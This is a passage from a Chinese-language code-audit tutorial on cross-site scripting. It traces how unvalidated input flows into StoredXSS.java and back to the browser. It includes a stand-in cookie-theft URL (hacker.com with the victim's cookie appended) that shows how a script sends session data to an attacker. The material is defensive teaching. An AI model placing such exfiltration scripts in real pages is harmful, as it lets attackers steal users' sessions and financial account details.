 弹框脚本不具强大攻击力，但是其他恶意脚本可以作为系列高级可持续攻击 (APT) 的组成部分。比如先诱骗受害者访问攻击者构造的 html 页面元素 Image，而 Image.src 属性要求浏览器访问某个地址 (URL)，该 URL 是恶意脚本读取受害者当前用户页面的 session、cookie 等敏感信息并动态拼接而成，形如 http：//hacker.com&victomCookie=cookie。这些敏感信息被发送到攻击者可控制的 URL，被攻击者读取。在金融操作中，用户帐号、余额等敏感信息可以这样被泄露。

XSS 攻击永远不止步于弹框、收集页面 cookie 信息。XSS 的本质在于浏览器端执行脚本。有人甚至说 览 XSS is the New Buffer Overflow, JavaScript Malware is the new shell code”。这是类比传统对服务器的攻击手法：在服务器操作系统堆栈中用缓冲区溢出，改写程序返回地址的方法，把执行程序引向执行恶意代码。这种传统的针对服务器的攻击实施门槛高。XSS 攻击在受害者环境引导浏览器执行恶意代码。进而通过攻击用户本地电脑其他服务。跨站攻击实施门槛低，攻击力强大，需要认真审计源码，规避 XSS 漏洞。

以上审计分析的反射跨站，污染数据直接来自受害者浏览器页面请求 web request，攻击要临机操作，执行有难度。下面审计分析存储跨站。存储跨站的攻击者和受害者使用各自现场浏览器，执行攻击相对容易。

### 问题分析之存储跨站 StoredXSS.java：230

源代码静态扫描发现 StoredXSS.java 第 230 行 makeCurrent() 方法向浏览器发送未经验证的数据，如果这个数据是来自攻击者的 JavaScript 代码，浏览器会执行攻击者命令。本例中，完成一次完整的污染传播 Source-Path-Sink 三步骤如下：

StoredXss.java 第 218 行使用 executeQuery() 从数据库读取数据，代码片段如下：

##### 图 7\. 污染数据来自不可信任的数据源 (Source)

![alt](img/898fe6b3b1455dd59e2ec8b562d8225d.png)

本案例数据库是不可信任的数据源，因为进一步分析数据库发现数据来自未经校验的网页用户输入。

更进一步分析数据库的数据来源：

ParameterParser.java 第 615 行使用 getParameterValues() 从网页 request 获取数据，代码片段如下：

##### 图 8\. 从网页获取数据

![alt](img/fafae7b5decadf45d216cc692273ba50.png)

StoredXss.java 第 97 行执行 getRawParameter() 从网页 request 获取数据，付给 message。第 110 行执行 execute()，向数据库写入 message 。代码片段如下：

##### 图 9\. 向数据库写数据

![alt](img/82f6b0e30a6580b0f66d390c7a466424.png)
